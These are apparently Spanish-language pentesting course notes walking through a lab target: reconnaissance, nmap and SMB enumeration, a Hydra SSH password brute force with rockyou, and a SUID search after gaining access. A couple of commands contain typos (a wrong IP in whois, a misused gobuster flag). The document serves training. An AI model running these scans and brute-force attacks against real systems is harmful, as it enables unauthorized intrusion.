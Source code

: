 Tenemos una ip publica que tenemos que comprometer -> 35.205.200.250

*1 -> Haremos un escaneo pasivo:*

Para saber si es windows o linux (no tiene porque ser definitivo) y saber si esta levantada:
```bash
ping 35.205.200.250
```
![[Pasted image 20240910172654.png]]

```bash
whois 35.205.200.205
```

Al no ser un dominio, no te reportaría gran info *nslookup* ni *dnsrecon* :
```bash
nslookup 35.205.200.250

dnsrecon -d 35.205.200.250
```

Podríamos probar para ver si tiene algún tipo de certificado con *openssl* pero al no ser un dominio nos va a ocurrir lo mismo :
```bash
openssl s_client -connect 35.205.200.250
```


*2 -> Haremos un escaneo activo:*
```bash
gobuster dir -w http://35.205.200.250 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100
```

![[Pasted image 20240910173119.png]]
Ahí te da pistas (como en el *laboratorio2*)

Para saber solo los puertos que están abiertos:
```bash
sudo nmap 35.205.200.250 -n -Pn -sS --min-rate 5000
```
Para lanzar los scripts por defecto:
```bash
nmap 35.205.200.250 -Pn -n -sVC --min-rate 5000
```
Elegimos la vulnerabilidad que más nos interese (en este caso smb):
```bash
nmap 35.205.200.250 -p139,445 -n -Pn -sV --script=*smb-*
```

No hay que depender de una sola herramienta, así que enumeraremos lo que tengamos en smb ->*smbmap* / *crackmapexec* /*smbclient* / *enum4linux* :
```bash
crackmapexec smb 35.205.200.250 -u "" -p ""
```
```bash
smbmap -H 35.205.200.250
```

Muchas veces que por *anonymous* puedes acceder :
```bash
smbclient //35.205.200.250
```
![[Pasted image 20240910180606.png]]

Esta herrmamienta te reporta muchas cosas:
```bash
enum4linux 35.205.200.250
```


*3-> Explotacion vulnerabilidad* -> Según el vector de ataque. En este caso haremos fuerza bruta (conocemos usuarios):
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://35.205.200.250
```
-P : lista de contraseña
-p : una sola contraseña

*Ya estamos dentro del servidor !!*
```bash
find / -type f -perm -4000 2>/dev/null
```

-> AQUI SEGUIMOS EL LABORATORIO2, el mismo vector de ataque

*Cuando levantamos servidor con python, a veces si intentamos conectarnos por puerto 80, 8080,446 no vamos a poder por tener permisos privilegiado. Por defecto se conecta por el 8000. Cuando tenemos este error probar por otro puerto estilo 4444*

Mejor utilizar clave publica para acceder a servidor mejor utilizar *ssh-copy-id* , asi no hay peligro de robar la clave pública.

Para ver manual de *ssh-copy-id* (esto es para no estrar en el .ssh):
```bash
curl cht.sh/ssh-copy-id -h
```

![[Pasted image 20240910171013.png]]

Te lo pone por consola más limpio que un man o help:
```bash
ssh-copy-id -h
```

![[Pasted image 20240910171124.png]]
